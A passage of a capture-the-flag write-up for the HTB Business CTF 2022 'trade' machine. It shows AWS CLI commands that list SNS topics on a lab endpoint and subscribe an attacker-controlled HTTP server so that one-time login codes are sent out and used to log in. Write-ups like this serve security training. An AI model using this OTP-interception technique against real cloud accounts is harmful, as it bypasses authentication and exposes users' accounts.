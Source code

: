 So first, we want to see what SNS topics are available:

{% highlight bash %}
aws sns list-topics --endpoint-url http://cloud.htb
{% endhighlight %}

![Listing the SNS topics]({{site.baseurl}}/assets/img/HTB_Business_CTF_2022/trade/list_topics.png){: .center-image}

There's a single topic and it looks like it is used for sending the OTP codes.  
Now we'll have to subscribe to that topic.  
There are multiple ways you can be notified by SNS: by SMS, by email, by using a lambda function hosted in AWS and others.  
For more details, you can go [here](https://docs.aws.amazon.com/cli/latest/reference/sns/subscribe.html).  

At first, I wanted to try running a lambda function when an OTP was generated. However, I could not access the AWS lambda service so I had to find another way.  
A good way to just read the content of the message would be using the 'http' protocol (protocols is how AWS calls the notification methods) for receiving the notification. Subscribing using 'http' as the protocol makes SNS send your server a POST request every time a new message appears on the topic that you're subscribed to.  

{% highlight bash %}
aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-2:000000000000:otp \
    --protocol http \
    --notification-endpoint http://10.10.14.31:9999/ \
    --endpoint-url http://cloud.htb
{% endhighlight %}

![Subscribing to the OTP topic]({{site.baseurl}}/assets/img/HTB_Business_CTF_2022/trade/subscribe.png){: .center-image}

We are now subscribed to that topic.  
At first, I tried using python's http.server in order to receive the requests.  
I can see that requests are made to my server, but http.server doesn't display contents of POST requests.  

For this, I found [this](https://gist.github.com/mozz100/8b67ff9c634afcde08fd) simple server that uses tornado and dumps the content of requests it receives.  
I changed the port to 9999 and ran that server in order to receive the SNS notifications.

![POST request received]({{site.baseurl}}/assets/img/HTB_Business_CTF_2022/trade/subscribe_post.png){: .center-image}

And it works, we can see that we received the message that informs us about the subscription being created.  
It looks like there's no need for accessing that confirmation URL mentioned in the message.

Now, we try to login again.  

![OTP obtained]({{site.baseurl}}/assets/img/HTB_Business_CTF_2022/trade/otp_obtained.png){: .center-image}

And we receive the OTP in a message from SNS. We can use that for logging in.

# Fuzzing the webapp
